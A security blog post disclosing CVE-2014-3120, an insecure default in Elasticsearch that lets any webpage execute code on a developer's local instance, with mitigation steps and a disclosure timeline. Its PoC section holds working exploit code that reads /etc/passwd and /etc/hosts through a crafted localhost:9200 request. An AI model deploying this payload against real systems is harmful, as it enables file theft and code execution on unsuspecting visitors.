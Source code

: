 ```yaml
---
layout: post
title: Insecure default in Elasticsearch enables remote code execution

---
```


Elasticsearch has a flaw in its default configuration which makes it possible for any webpage to execute arbitrary code on visitors with Elasticsearch installed. If you're running Elasticsearch in development please read [the instructions](#how_to_secure_against_this_vulnerability) on how to secure your machine. Elasticsearch version 1.2 (which is unreleased as of writing) is not vulnerable to remote code execution, but still has some security concerns.

## The problem(s)
There are a couple of problems which enable the proof of concept I'm going to present:

* Elasticsearch has no access roles or authentication mechanism. This means that you have full control over a cluster the moment you connect to it.
* The API for Elasticsearch is accessible over <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html" target="_blank">HTTP</a> and provides no CSRF protection whatsoever.
* It contains a <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html" target="_blank">feature</a> which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function while searching through documents. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
* Up to version 1.2 <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_enabling_dynamic_scripting" target="_blank">dynamic scripting</a> (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.

There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch, you probably have it running on your machine. The default port is `9200` and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.

## PoC
The following script will read `/etc/hosts` and `/etc/passwd` from a user visiting a webpage and display the contents in the browser.

{% highlight coffeescript %}
read_file = (filename) ->
  """
  import java.io.File;
  import java.util.Scanner;
  new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
  """

# This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
$ ->
  payload = {
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {}
  }

  for filename in ["/etc/hosts", "/etc/passwd"]
    payload["script_fields"][filename] = {"script": read_file(filename)}

  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
    console.log(data)
    for hit in data["hits"]["hits"]
      for filename, contents of hit["fields"]
        document.write("<h2>#{filename}</h2>")
        for content in contents
          document.write("<pre>" + content + "</pre>")
        document.write("<hr>")
{% endhighlight %}

You can verify whether you're vulnerable by trying out the above PoC <a href="/blog/elasticsearch-rce/poc.html" target="_blank">here</a>.

There are many ways to exploit this, you could link the victim to the page or embed it as an Iframe. You can even exploit this by crafting a URL and using it as the `src` of an `<img>`, as the only thing that needs to happen is a single GET request. No user interaction required!

Because this is so easily exploitable you can mass-pwn developers with relatively little work.

## How to secure against this vulnerability

Add the following line to your `elasticsearch.yml` to disable dynamic scripting and prevent remote code execution:

{% highlight yaml %}
script.disable_dynamic: true
{% endhighlight %}

You should also make sure that your local Elasticsearch instance is only binding on `localhost`, as someone could exploit you over LAN if you don't. The Homebrew Elasticsearch formula does this automatically.

If you want to be as secure as possible, you should run Elasticsearch inside a virtual machine, to make sure it has no access to the hosting machine at all.

## Additional targets

Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included. This is impossible to fix by the Elasticsearch developers without adding authentication or CSRF protection.

If an attacker can figure out the internal address of your production Elasticsearch instance, you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to your Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.

[Hackernews](https://news.ycombinator.com/item?id=7732540)

[Reddit](http://www.reddit.com/r/netsec/comments/25cuun/insecure_default_in_elasticsearch_enables_remote/)

### Notes

* I have reserved [CVE-2014-3120](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120) for this issue.
* This exploit was tested against Elasticsearch version 1.1.1 on MacOSX installed through Homebrew. No configuration changes were made.
* I notified Elasticsearch through their [security report instructions](http://www.elasticsearch.org/community/security/) on the 26th of April 2014. They replied they were aware of it, but didn't intend to do a security release and instead [disable](https://github.com/elasticsearch/elasticsearch/issues/5853) dynamic scripting by default in version 1.2.
* This security issue has been indepently discovered and [blogged about](https://www.found.no/foundation/elasticsearch-security/#staying-safe-while-developing-with-elasticsearch) on December 9th 2013.

*You should follow me on Twitter [here](https://twitter.com/bvdbijl)*
